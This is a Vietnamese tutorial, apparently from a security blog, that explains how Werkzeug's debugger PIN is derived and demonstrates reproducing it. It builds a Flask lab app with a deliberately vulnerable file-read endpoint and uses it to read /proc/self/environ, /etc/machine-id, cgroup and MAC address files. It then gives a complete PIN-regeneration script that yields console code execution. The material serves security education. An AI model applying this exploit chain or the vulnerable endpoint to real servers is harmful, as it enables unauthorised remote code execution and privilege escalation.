









 <h1 align="center">Werkzeug Debugger PIN exploit</h1>


#### **Ở phần trước chúng ta đã tìm hiểu tổng quan về Werkzeug cùng debugger của nó, cũng như câu hỏi về độ an toàn của PIN bảo vệ debugger trong trường hợp developer quên không tắt Debug mode. Vậy nên hôm nay chúng ta sẽ cùng đi sâu vào tìm hiểu xem PIN có thể bị khai thác hay không, và nếu có thì cần những điều kiện gì để khai thác nó nhé. **


### <u>**Vì sao hacker lại muốn khai thác PIN của console ?**</u>

Nếu developer quên tắt Debug mode trên web app, và hacker có thể truy cập vào debugger thì rào cản cuối cùng giữa hacker và server chính là PIN của console. Nếu hacker bypass thành công PIN, hắn ta sẽ có quyền thực thi lệnh python ngay trên server, cho phép hắn thực hiện Remote Code Execution (RCE) trên hệ thống của web app. Vậy là hắn đã thành công xâm nhập vào trong server rồi.

Vậy khai thác PIN này có khả thi không, và làm như thế nào?


### <u>**PIN có thể bị khai thác không?**</u>

Để trả lời cho câu hỏi này, chúng ta có thể xem xét các hướng sau đây.

1. Bruteforce

   Bruteforce thành công 1 mã PIN 9 chữ số sẽ rất mất thời gian (1 tỉ giá trị để thử, chưa tính response time), đồng thời nếu mã PIN bị nhập sai liên tục thì server sẽ restart để tránh bruteforce. Vậy nên phương án này không khả thi.

2. Reproduce

   Ý tưởng ở đây là, chúng ta sẽ thử tái tạo lại PIN để xem liệu mã PIN mới có hoạt động không, và tìm hiểu xem để tạo ra nó cần những gì, có yếu tố nào ngẫu nhiên không? Phương án này có vẻ khả thi hơn bruteforce.

   Để reproduce PIN, trước hết chúng ta cần tìm hiểu về cách nó được tạo ra trước đã.


### <u>**PIN được tạo ra như thế nào ?**</u>

> ​	Mã PIN bảo vệ console của Werkzeug debugger được tạo ra lúc server khởi động, có dạng XXX-XXX-XXX với X là chữ số từ 0 đến 9.

Theo như [repo github werkzeug](https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/__init__.py), mã PIN này không được tạo ra ngẫu nhiên, mà được tạo ra từ các thông số của máy. Sau đây là các biến cần để tạo PIN, được phân làm 2 trường **probably_public_bits** và **private_bits**

```Python
probably_public_bits = [
    username,	#User who launchs the app
    modname, 	#getattr(app, "__module__", t.cast(object, app).__class__.__module__)
    getattr(app, '__name__', getattr(app.__class__, '__name__')),
    getattr(mod, '__file__', None),
]

private_bits = [
    str(uuid.getnode()), #MAC address of network interface on which we host webapp
    get_machine_id(), 	 #/etc/machine-id
]
```

**probably_public_bits**:

* username của user launch app

* modname là module name, trong trường hợp webapp sử dụng Flask thì mặc định là flask.app. \

  getattr(app, "__module__", t.cast(object, app).__class__.__module__) : lấy _\_module_\_ attribute của object **app**, nếu không có sẽ trả về t.cast(object, app)._\_class_\_._\_module_\_ là giá trị mặc định

*  application name : tương tự với modname là attribute _\_name__ của **app**  

* Đường dẫn tới file app.py

**private_bits**:

* MAC address của network interface host webapp, được chuyển đổi sang thập phân 
* machine-id là giá trị của /etc/machine-id kết hợp với giá trị cuối cùng của /proc/self/cgroup, ngăn cách bởi dấu / (ví dụ nếu cgroup có giá trị là **0::/system.slice/flaskapp.service** thì chỉ lấy **flaskapp.service** )

Sau khi thu thập đủ tất cả các biến, ghép toàn bộ những thông tin trên thành 1 string sau đó áp dụng MD5 (phiên bản mới hơn sử dụng SHA1) cho string thu được và encode kết quả dưới dạng thập phân và thêm dấu gạch - vào giữa mỗi 3 chữ số là đã thu đươc mã PIN có dạng XXX-XXX-XXX. 

```python
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)

# Format the pincode in groups of digits for easier remembering if
# we don't have a result yet.
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x : x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
    else:
        rv = num
```

Vậy là chúng ta đã biết PIN được tạo ra như thế nào, tuy nhiên trên phương diện của 1 hacker, làm thế nào để hắn ta có thể thu thập tất cả các nguyên liệu trên để tạo thành PIN? 


### <u>**Điều kiện và cách reproduce PIN**</u>

Lấy các thông số cần cho việc tạo PIN là việc dễ dàng nếu chúng ta đã có access vào máy, tuy nhiên với 1 hacker thì việc tái tạo PIN là điều không thể nếu không kết hợp với một lỗ hổng khác, ví dụ như là Local File Inclusion (LFI) chẳng hạn.

Giả sử web app có một lỗ hổng LFI, và hacker đã thành công khai thác nó, nhưng LFI là không đủ để hắn xâm nhập vào hệ thống, vậy thì sự kết hợp giữa sự vô ý của developer với debug mode on và LFI sẽ cho hắn chính xác thứ hắn cần: RCE.


Để mô phỏng quá trình xâm nhập một cách trực quan, chúng ta sẽ host ra một [minimal webapp với Flask](https://flask.palletsprojects.com/en/2.0.x/quickstart/).

```python
#hello.py

from flask import Flask, request

app = Flask(__name__)

@app.route("/")
def hello_world():
    return "<p>Hello, World!</p>" + name #This will create an exception
@app.route("/lfi", methods=["GET", "POST"])
def lfi_endpoint():
    if request.method == "POST":
        file_path = request.form.get("file_path")

        try:
            with open(file_path, "r") as file:
                file_content = file.read()
                return f"<pre>{file_content}</pre>"
        except Exception as e:
            return f"Error: {e}"

    return """
    <form method="post" action="/lfi">
        Enter file path: <input type="text" name="file_path">
        <input type="submit" value="Read File">
    </form>
    """
if __name__ == "__main__":
    app.run(debug = True)

```

Để xem các giá trị của 2 trường chúng ta chỉnh sửa source code của debugger werkzeug một chút tại "venv/lib/python3.11/site-packages/werkzeug/debug/_\_init__.py" như sau:

```python
#init.py

# This information only exists to make the cookie unique on the
# computer, not as a security feature.
probably_public_bits = [
username,
modname,
getattr(app, "__name__", type(app).__name__),
getattr(mod, "__file__", None),
]

# This information is here to make it harder for an attacker to
# guess the cookie name.  They are unlikely to be contained anywhere
# within the unauthenticated debug page.
private_bits = [str(uuid.getnode()), get_machine_id()]

### Thêm các dòng sau vào để print giá trị của 2 trường ###
print(f'public_bits: {probably_public_bits}')
print(f'private_bits: {private_bits}')
```



​														Hình 1: Terminal khi launch app

Mã PIN đúng hiện tại là 909-288-715 với public_bits và private_bits như hình.



​											           Hình 2: Mininal app Hello, World!

Sau khi xác nhận webapp đã launch rồi, chúng ta sẽ sửa code 1 chút để tạo ra bug để trigger debugger và thu được như sau:



​															Hình 3: Debugger Werkzeug

Chúng ta cũng tạo 1 lỗ hổng LFI để mô phỏng lại quá trình exploit của hacker với endpoint /lfi cho phép người dùng đọc nội dung text của 1 file trên server:




Giờ chúng ta sẽ thử reproduce lại mã PIN xem liệu có khả thi không nhé. Bắt đầu với trường **probably_public_bits**:

1. username chạy server: 

​	Thông thường với LFI thì /proc luôn là nơi hữu ích để tìm thấy các thông tin hữu ích về process đang chạy. Nếu đọc file /proc/self/environ chúng ta sẽ xem được environment của chính flask app và biết được user đằng sau: user **meta9** chính là user của mình đã dùng để launch server



2. Module name

   Để lấy được module name thì chúng ta có thể dùng LFI để đọc file source để lấy module name, hoặc mặc định cho Flask là **flask.app**

3. Application name + Path to app.py

​		Path app.py hoàn toàn lấy được ở debugger: **/usr/lib/python3/dist-packages/flask/app.py** Application name có thể là **wsgi_app** hoặc **Flask** 

​		


Tiếp tục với  trường **private_bits**:

1. MAC address của interface

   Với LFI : xem /proc/net/arp để xem các device name. Ở đây chúng ta có eth0

   

   Để lấy được mac address của eth0 với LFI: /sys/class/net/eth0/address

   và đổi sang thập phân:

   ```python
   >>>print(0xfbb37b1fef43)
   276748283408195
   ```
   
2. machine-id + cgroup value

   Thành phần cuối cùng để tạo PIN là một string bao gồm:

   * machine-id: tìm thấy ở /etc/machine-id : **9d01ccfec57941928e8cda4fab88266b**

   * cgroup value: tìm thấy ở /proc/<pid flask app>/cgroup hoặc với LFI thì /proc/self/cgroup

     

     Chỉ lấy giá trị cuối cùng ngăn cách bởi dấu /, ở đây thu được **session-2.scope**

   Cuối cùng chúng ta ghép lại thu được chuỗi **9d01ccfec57941928e8cda4fab88266bsession-2.scope**

   Lưu ý là tùy phiên bản, những phiên bản cũ hơn của Werkzeug chỉ cần machine-id là đủ để tạo PIN

   Vậy là chúng ta thông qua LFI đã thu thập đủ thông tin để reproduce PIN. Giờ chỉ cần mô phỏng lại quá trình tạo PIN với các thông tin vừa tìm được và so sánh với mã PIN gốc xem liệu có thành công hay không.

   

   Dưới đây là code reproduce PIN bằng python. Tùy vào version của Flask và Werkzeug mà hash có thể là MD5 hoặc SHA1.

   ```python
   import itertools
   import hashlib
   from itertools import chain
   
   def crack_md5(username, modname, appname, flaskapp_path, node_uuid, machine_id):
       h = hashlib.md5()
       crack(h, username, modname, appname, flaskapp_path, node_uuid, machine_id)
   
   def crack_sha1(username, modname, appname, flaskapp_path, node_uuid, machine_id):
       h = hashlib.sha1()
       crack(h, username, modname, appname, flaskapp_path, node_uuid, machine_id)
   
   def crack(hasher, username, modname, appname, flaskapp_path, node_uuid, machine_id):
       probably_public_bits = [
               username,
               modname,
               appname,
               flaskapp_path ]
       private_bits = [
               node_uuid,
               machine_id ]
   
       h = hasher
       for bit in chain(probably_public_bits, private_bits):
           if not bit:
               continue
           if isinstance(bit, str):
               bit = bit.encode('utf-8')
           h.update(bit)
       h.update(b'cookiesalt')
   
       cookie_name = '__wzd' + h.hexdigest()[:20]
   
       num = None
       if num is None:
           h.update(b'pinsalt')
           num = ('%09d' % int(h.hexdigest(), 16))[:9]
   
       rv =None
       if rv is None:
           for group_size in 5, 4, 3:
               if len(num) % group_size == 0:
                   rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                                 for x in range(0, len(num), group_size))
                   break
           else:
               rv = num
   
       print(rv)
   
   if __name__ == '__main__':
   
       usernames = ['meta9']
       modnames = ['flask.app']
       appnames = ['wsgi_app', 'Flask']
       flaskpaths = ['/usr/lib/python3/dist-packages/flask/app.py']
       nodeuuids = ['276748283408195']
       machineids = ['9d01ccfec57941928e8cda4fab88266bsession-2.scope']
   
       # Generate all possible combinations of values
       combinations = itertools.product(usernames, modnames, appnames, flaskpaths, nodeuuids, machineids)
   
       # Iterate over the combinations and call the crack() function for each one
       for combo in combinations:
           username, modname, appname, flaskpath, nodeuuid, machineid = combo
           print('==========================================================================')
           crack_sha1(username, modname, appname, flaskpath, nodeuuid, machineid)
           print(f'{combo}')
           print('==========================================================================')
   ```

   Và đây là kết quả thu được:
   
   
   
   Mã PIN với application name Flask đúng với mã PIN gốc, và cho phép hacker truy cập vào console
   
   
   
   Vậy là chúng ta đã reproduce thành công PIN debugger Werkzeug của Flask app với lỗ hổng LFI và thành công có được RCE.
   

### <u>**Một số cách khai thác khác**</u>

Lợi dụng điểm yếu trong việc tạo PIN của Werkzeug, chúng ta cũng có thể ứng dụng như một cách 		leo quyền trong Linux. Giả sử 1 user khác (mà hacker đang muốn leo quyền sang) đang chạy web app 	và quên tắt debug mode , hoàn toàn có thể tìm những thông tin cần thiết trong hệ thống và bypass 		debugger, sau đó thì dễ dàng có được quyền của user trên.

### <u>**Tìm hiểu thêm: Sử dụng Werkzeug với Django**</u>

Sử dụng Werkzeug với Django giúp chúng ta tận dụng debugger tiện lợi giúp hiển thị các stacktrace và thêm debugger dựa trên AJAX (cho phép code execution giúp debug ngay trong stacktrace). Tuy nhiên, khác với Flask, Werkzeug được sử dụng trong Django như một [extension](https://flask.palletsprojects.com/en/2.0.x/quickstart/) [https://django-extensions.readthedocs.io/en/latest/runserver_plus.html] nên cách tạo PIN cũng có đôi chút khác biệt. Mọi người có thể thử tự mình tạo ra một webapp đơn giản trên localhost để tự mình xem xem sự khác biệt này như thế nào nhé.


Requirements installation: 

```bash
$ pip install django
$ pip install werkzeug
$ pip install django-extensions
```

Đừng quên chỉnh sửa file init.py của debugger 1 chút để in ra các giá trị của 2 trường **probably_public_bits** và **private_bits**

```python
#init.py

# This information only exists to make the cookie unique on the
# computer, not as a security feature.
probably_public_bits = [
username,
modname,
getattr(app, "__name__", type(app).__name__),
getattr(mod, "__file__", None),
]

# This information is here to make it harder for an attacker to
# guess the cookie name.  They are unlikely to be contained anywhere
# within the unauthenticated debug page.
private_bits = [str(uuid.getnode()), get_machine_id()]

### Thêm các dòng sau vào để print giá trị của 2 trường ###
print(f'public_bits: {probably_public_bits}')
print(f'private_bits: {private_bits}')
```

Tạo django project:

```bash
$ django-admin startproject mywebsite
$ cd mywebsite
$ python manage.py startapp myapp
$ ls
python manage.py startapp myapp
```

Sau đó cấu hình url và chạy server với extension:

```bash
$ python manage.py runserver_plus
```

Và xem các giá trị để tạo PIN có gì khác hơn so với Flask nhé!

### 	<u>**Reference**</u>

1. https://www.bengrewell.com/cracking-flask-werkzeug-console-pin/
2. https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug
3. https://github.com/wdahlenburg/werkzeug-debug-console-bypass
4. https://www.youtube.com/watch?v=6BWaea0nfE0
